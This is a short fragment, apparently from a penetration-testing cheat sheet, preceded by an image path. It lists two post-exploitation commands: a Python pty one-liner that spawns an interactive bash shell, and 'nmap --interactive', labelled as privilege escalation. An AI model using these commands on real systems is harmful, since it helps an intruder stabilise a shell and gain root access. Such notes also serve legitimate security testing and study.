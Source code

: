 Spawn interactive shell: ```python -c import pty;pty.spawn("/bin/bash")```

Privilege escalation with nmap :  ```nmap --interactive```